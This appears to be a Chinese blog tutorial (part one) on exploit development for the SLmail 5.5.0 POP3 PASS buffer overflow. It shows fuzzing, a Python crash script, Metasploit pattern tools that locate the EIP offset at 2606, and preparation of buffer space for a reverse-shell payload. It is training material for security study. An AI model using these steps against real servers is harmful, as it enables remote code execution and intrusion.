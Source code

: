 ```yaml
---
title: 缓冲区溢出案例（一）
categories:
- buffer overflow
tags:
- buffer overflow
---
```

缓冲区溢出案例与exp开发流程
===
- bug是怎么找到的?
- 你怎么知道x比特在y命令，可以使应用程序崩溃造成缓冲区溢出漏洞？

有三种方法：
1. 如果有源代码，阅读源码是最简单的寻找bug的方式。
2. 逆向工程
3. fuzzing

---
fuzzing 是一种向应用程序发送构造的数据，然后期盼程序崩溃。
程序崩溃说明程序没有对输入做正确的过滤。
## 漏洞历史
下面讲一下在slmail 5.5.0 邮件服务软件上的知名缓冲区溢出漏洞。
在2005年发现，pop3 pass命令，在用户登陆的时候，有bof漏洞。攻击者无需知道
任何口令即可引发bof漏洞。
该软件未使用DEP或者ASLR编译，使得漏洞利用过程更加简单，我们不必绕过这些内部安全机制。
## DEP和ASLR
这是微软的内存保护机制。
DEP是一系列硬件、软件技术，执行额外的内存检查，防止恶意代码在程序上运行。
DEP主要的好处是当发生异常时，防止代码从数据区执行。
ASLR打乱载入应用程序、动态链接库时候的基地址（base address)
## 与pop3协议通信
我们选择slmail作为案例的原因是，与纯文本pop3协议通信十分简单。
我们可以使用netcat与pop3服务器进行通信。

https://slmail.software.informer.com/5.5/
安装exe到windows，重启后，windows开放了pop3-110端口 

![16](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/16.PNG)

## 写一个python脚本
这个脚本的作用很简单，和nc起到的作用一样。为什么要写这个脚本呢?因为根据这个脚本稍作修改，就可以改为fuzzer脚本，使得应用程序崩溃。
![15](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/15.PNG)

[https://github.com/Whale3070/ctf-coding/blob/master/send.py](https://github.com/Whale3070/ctf-coding/blob/master/send.py)

[https://github.com/Whale3070/ctf-coding/blob/master/fuzzer.py](https://github.com/Whale3070/ctf-coding/blob/master/fuzzer.py)

## immunity debugger
![18](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/18.PNG)

左上 --指令面板

右上 --寄存器面板

左下 --内存转储面板

右下 --堆栈面板

---
file -- attach --SLmail
![17](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/17.PNG)

挂载后，点击下图的开始按钮，运行程序
![20](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/20.PNG)

运行[fuzzer.py](https://github.com/Whale3070/ctf-coding/blob/master/fuzzer.py)，使程序崩溃，造成了缓冲区溢出

![19](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/19.PNG)

## 定位缓冲区大小
定位缓冲区大小，当输入2500个a，程序运行正常；输入2600个a时候，就会报错。
```
#!/usr/bin/python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
buffer= 'a' * 2700
try:
	print "\nSending evil buffer..."
	s.connect(('192.168.1.102',110)) # connect to IP, POP3 port
	data = s.recv(1024) # receive banner
	print data # print banner
	
	s.send('USER test' +'\r\n') # send username "test"
	data = s.recv(1024) # receive reply
	print data # print reply
	
	s.send('PASS' + buffer + '\r\n') # send password "test"
	data = s.recv(1024)
	print data # print reply
	
	s.close() # close socket
	print "\nDone!"
except:
	print "Could not connect to POP3!"
```
## 控制eip

控制eip寄存器是exp开发流程中关键的有，eip寄存器就像驾驭马的辔头一样，控制缰绳就让应用程序前进，
拉着缰绳就能让它改变前进方向。所以我们使用4个A在buffer(缓冲区)中覆盖了EIP，这里有两个常见的方法：
### 二叉树分析
将2700个A修改为，发送1350A和1350个B，如果EIP被B所覆盖，我们知道了4比特存在于buffer的第二部分。
接下来，修改1350个B为675个B和675个C，然后再一次发送buffer。
如果EIP被C覆盖，我们知道了4bit存在于2000-2700比特范围之间。
我们继续将buffer二分直到我们知道了准确的覆盖EIP的4bit。
从数学上来说，这将在7次之内找到。
### 发送一个特殊的字符串(使用msf）
最快的方式是发送一个特殊的字符，来确认覆盖EIP的范围，然后在buffer中查找这个字符。

**patter_create.rb**

是一个ruby工具，来创建和定位这样的buffer，并且可以在msf中找到它。
使用方法：
```
locate pattern_create
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700
```
![21](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/21.PNG)

复制生成的字符串，修改[send.py](https://github.com/Whale3070/ctf-coding/blob/master/send.py)，将字符串作为pass密码发送，而不是2700个A，注意下一次程序崩溃时，ESP和EIP寄存器中的值

![22](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/22.PNG)

执行send3py

![23](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/23.PNG)注意弹框的地址`39694438`

```
locate pattern_offset.rb
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2700 -q 39694438

[*] Exact match at offset 2606
```
于是得知了offset为2606

## 检查buffer，准备执行shellcode
msf可以自动生成shellcode，标准的反弹shell的payload（有效载荷）需要大约350-400比特的空间。

![24](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-13-08/24.PNG)
修改buffer，`string= "A"* 2606+ "B"*4 + "C"*(3500-2606-4)`
查看最后的crash，我们可以看到ESP寄存器直接指向了我们缓冲区的C地址，这看起来有足够的空间让我们放置shellcode。


